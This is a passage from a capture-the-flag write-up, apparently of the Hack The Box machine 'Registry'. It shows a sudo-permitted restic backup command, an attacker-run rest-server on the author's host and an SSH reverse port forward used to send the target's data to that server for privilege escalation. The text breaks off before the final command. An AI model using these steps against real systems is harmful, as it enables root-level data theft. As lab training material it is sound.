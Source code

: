 ```
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```

As, I saw the `restic` server running as root then searched for files and got `backup.php`

```
www-data@bolt:/var/www/html$ cat backup.php
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
```

#### Restic Server
Then I searched about `restic` server and collected knowledge you can find [here](https://restic.readthedocs.io/en/latest/) and at first I download to my localhost then started the restic server as you can find file [rest-server](https://github.com/restic/rest-server).

```
root@gr4n173:~$ rest-server --path . --no-auth
Data directory: .
Authentication disabled
Private repositories disabled
Starting server on:8000
Creating repository directories in .
Creating repository directories in .
```
Now before directly using the `rest-server` in machine I used and in my local machine and it worked.

```
root@gr4n173:~$ restic -r http://10.10.14.129:8000 init
enter password for new repository:
enter password again:
created restic repository 39fcbee204 at rest:http://10.10.14.129:8000

Please note that knowledge of your password is required to access the repository. Losing your password means that your data is irreversibly lost.
```

#### Port Forwarding
After, it worked in my local machine I port forward from 8000 to 1234 ( this willn't work if your python is active at 8000 then it will route to another port ).

```
root@gr4n173:~$ ssh bolt@10.10.10.159 -i id_rsa -R 1234:127.0.0.1:8000
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic	 x86_64)

	System information as of Mon Nov 11 14:1018 UTC 2019
	
	System Load: 0.02 			Users logged in:					1
	Usage of /: 6.5% of 61.80GB	IP address for eth0:				10.10.10.159
	Memory usage: 53%			IP address for br-1bad9bd75d17: 	172.18.0.1
	Swap usage: 1%				IP address of docker0: 			172.17.0.1
	Processes: 206
	
	=> There is 1 zombies process.
Last Login: Mon Nov 11 14:1018 2019 from 10.10.15.129
bolt@bolt:~$whoami
bolt
```
At first I used the full directory of `restic` server but that doesn't work so I used below command in `www-data` shell
